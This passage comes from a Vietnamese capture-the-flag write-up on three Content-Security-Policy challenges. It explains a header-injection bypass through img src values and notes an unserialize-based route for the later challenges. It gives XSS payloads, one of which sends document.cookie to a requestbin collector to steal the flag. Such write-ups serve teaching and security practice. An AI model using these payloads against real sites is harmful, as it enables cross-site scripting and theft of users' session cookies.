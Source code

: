### Solution
Vậy chúng ta cùng xem biến `img_urls` được khởi tạo như nào.
```py
 img_urls = [x['src'] for x in bs(content).find_all("img")]
```
Đoạn code này là khởi tạo biến `img_urls` => nó nhận value nằm trong src="" của thẻ `img` => chúng ta có thể dựa vô đây để ghi đè header và từ đó có thể thực thi thẻ script mà các header của `Content-Security-Policy` đã chặn.

### Payload
```
content = <img src ="http://a;script-src 'unsafe-inline';"<script>alert(1)</script>
```
Như vậy chúng ta có thể trigger được xss. Ở đây mình sài `script-src` chứ không phải `script-src-elem` vì bot chạy trên firefox nên payload `script-src-elem` không hoạt động (có thể trigger được xss nhưng không lấy được flag)
Đây là payload lấy cookie
```
content = <img src ="http://a;script-src 'unsafe-inline';"<script>location.replace="requestbin"%2bbtoa(document.cookie)</script>
```
Sau đó gửi link bài viết cho bot, cuối cùng vô requestbin để chờ flag

## Challenge CSP 2 và 3
Ở challenge CSP 2 và 3 này thì cũng chúng ta cũng nhập vào và sau đó chương trình sẽ in ra cho mình cái nội dung mình đã gửi đó.
Chú ý file `CSP.module` thì ở đây có `Content-Security-Policy`.

```php
header("Content-Security-Policy: default-src 'none'; script-src $nonce; img-src 'self'; style-src $nonce; base-uri 'self'; report-uri $this->report_uri_string;");
```
Ở đoạn code này thấy được có một biến lại được truyền thẳng vô header là `$this->report_uri_string`. Vậy để xem biến này nó nằm ở đâu và chúng ta có thể control nó không.
Cùng file `CSP.module`

```php
class CSP extends Typed
{
    public $report_uri_string;

    protected function construct()
    {
        $this->report_uri_string = '/report_csp';
    }
...
```
Vậy `$this->report_uri_string` được khởi tạo đi gọi chương trình gọi class `CSP` và biến `$this->report_uri_string` được gán mặc định là `/report_csp` => Ở đây chúng ta chưa thể control biến này và injection vào header như challenge CSP 1.

Nhưng khi chú ý vào file `index.php` thì thấy được có một tham số khi chúng ta nhập vào nó sẽ `unserialize` đó là `user` => Chúng ta có thể dựa vô đây để có thể control biến `report_uri_string` và injection bất kì.
